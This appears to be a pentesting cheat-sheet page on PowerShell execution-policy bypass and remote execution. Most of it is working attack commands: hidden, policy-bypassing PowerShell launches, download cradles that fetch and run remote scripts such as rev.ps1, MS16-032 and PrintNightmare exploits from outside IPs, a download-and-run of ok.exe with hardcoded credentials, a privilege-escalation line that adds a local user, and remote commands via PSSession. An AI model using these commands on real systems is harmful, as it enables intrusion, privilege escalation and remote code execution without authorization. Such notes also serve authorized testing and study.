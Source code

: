 ```yaml
---
description: Get-ExecutionPolicy -List | Format-Table -AutoSize
---
```


# run powershell

`Import-Module .\xxx.ps1` / `. .\xxx.ps1`

cmd -> ps = `powershell -ep bypass`

{% embed url="https://www.google.com/search?oq=powershell+bypass&q=powershell+bypass+execution+policy" %}

{% hint style="info" %}
exec policy bypass
{% endhint %}

```
powershell -w h -NoP -NonI -ep Bypass
```

```
echo "cmd" | powershell -noprofile

powershell -c "cmd"
```

<pre data-overflow="wrap"><code>Get-Content .\runme.ps1 | PowerShell.exe -noprofile -

type .\runme.ps1 | PowerShell.exe -noprofile -

<strong>powershell -nop -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.129.114/rev.ps1')"
</strong>
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1

Get-Content C:\Users\ted\Desktop\PrivescCheck-master\PrivescCheck.ps1 | Out-String | IEX Invoke-PrivescCheck -Extended -Report "PrivescCheck_$($env:COMPUTERNAME)"

</code></pre>

{% hint style="info" %}
direct run in memory from host server
{% endhint %}

{% code overflow="wrap" %}
```
powershell -NoP -NonI -W Hidden -Exec Bypass (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.132:8080/ok.exe', "C:\HFS\tmp\ok.exe"); Start-Process "C:\HFS\tmp\pse.exe -u alice -p aliceishere C:\HFS\tmp\ok.exe"

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://192.168.45.5/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user evi1cg test123 /add'"

iex(new-object net.webclient).downloadstring('http://172.16.1.30/print_nightmare.ps1')
```
{% endcode %}

#### RCE when knowing computer name and as XXX\User (e.g.  XXX.domain.local)

```
$dcs = NEW-PSSession -Computer XXX
Invoke-Command -Session $dcs -ScriptBlock {ipconfig}

$dcs = NEW-PSSession -Computer XXX
Invoke-Command -Session $dcs -ScriptBlock {C:\Users\Public\whoami.exe}
```
